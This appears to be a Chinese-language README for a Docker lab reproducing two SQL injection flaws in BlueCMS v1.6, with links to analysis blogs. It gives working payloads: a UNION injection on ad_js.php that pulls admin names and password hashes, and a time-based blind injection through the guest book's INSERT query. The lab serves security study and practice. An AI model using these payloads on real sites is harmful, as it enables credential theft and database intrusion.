








## 启动环境

```
docker-compose build
docker-compose up -d
```

## 漏洞一:
一个标准的整数型显错式联合查询注入
 
```html
http://127.0.0.1/ad_js.php?ad_id=1 union select 1,2,3,4,5,6,concat(admin_name,0x23,pwd) from blue_admin limit 1
```





## 漏洞二:





一个典型的insertsql注入漏洞

访问页面 http://127.0.0.1/guest_book.php


一般显错注入:查看当前数据库






时间盲注Payload
```
127.0.0.1','luffy' || if((select count(*) from information_schema.tables where TABLE_SCHEMA='bluecms')=29,sleep(2),1))#
```




链接
[【Code Review】bluecms v1.6 Sql Injection 分析](https://blog.0kami.cn/2017/01/11/old-bluecms-v1-6-Sql-Injection/)
[利用insert、update和delete注入获得数据 - babers - 博客园](https://www.cnblogs.com/babers/articles/7252401.html)
[无痕渗透“INSERT INTO”型SQL注入 - 逆水行舟 - CSDN博客](https://blog.csdn.net/hwz2311245/article/details/53941523)
[【SQL注入】insert、update和delete时间盲注 - Vinc's Blog](http://vinc.top/2017/04/06/%E3%80%90sql%E6%B3%A8%E5%85%A5%E3%80%91insert%E3%80%81update%E5%92%8Cdelete%E6%97%B6%E9%97%B4%E7%9B%B2%E6%B3%A8/)
[Insert和Update型SQL注入的实践之旅 | BlackWolf's Blog](http://blackwolfsec.cc/2018/07/30/sql_update_insert/)